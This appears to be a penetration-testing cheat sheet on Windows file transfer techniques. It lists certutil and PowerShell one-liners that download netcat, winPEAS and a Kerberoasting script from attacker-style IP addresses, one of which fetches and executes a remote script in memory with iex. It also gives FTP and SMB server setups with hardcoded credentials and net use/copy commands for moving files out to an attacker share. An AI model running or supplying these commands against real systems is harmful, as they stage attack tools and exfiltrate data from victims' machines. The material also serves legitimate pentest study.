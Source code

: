   # File Transfers
---------------------------

## CertUtil 
```cmd
certutil -urlcache -split -f "http://192.168.119.213:8000/nc.exe" nc.exe
```

## PowerShell
```Powershell
powershell -c "(New-Object System.Net.WebClient).DownloadFile('http://10.0.2.15:8009/winpeas.exe', 'winpeas.exe')"
```

```Powershell
powershell Invoke-WebRequest -Uri IP:PORT/nc.exe -OutFile C:\Users\Public\nc.exe
```

```Powershell
powershell iex(new-object system.net.webclient).downloadstring("http://192.168.119.230/GetUserSPNs.ps1")
```

```Powershell
powershell -c iwr http://10.10.14.51:8010/nc.exe -outfile nc.exe 
```

## FTP 

ftp server using python:

```bash
pip3 install pyftpdlib
```

```bash
sudo python3 -m pyftpdlib -u cbbn -P passw0rd123 -p 21 --write
```

## SMB 

```bash
python3 smbserver.py share /home/cibbin/ -smb2support -username cibbin -password root123
```

Connect to the share from cmd:
```cmd 
net use \\IP\share /u:cibbin root123

copy filename.zip \\IP\share\

del filename

net use /d \\IP\share	#delete the mounted share
```



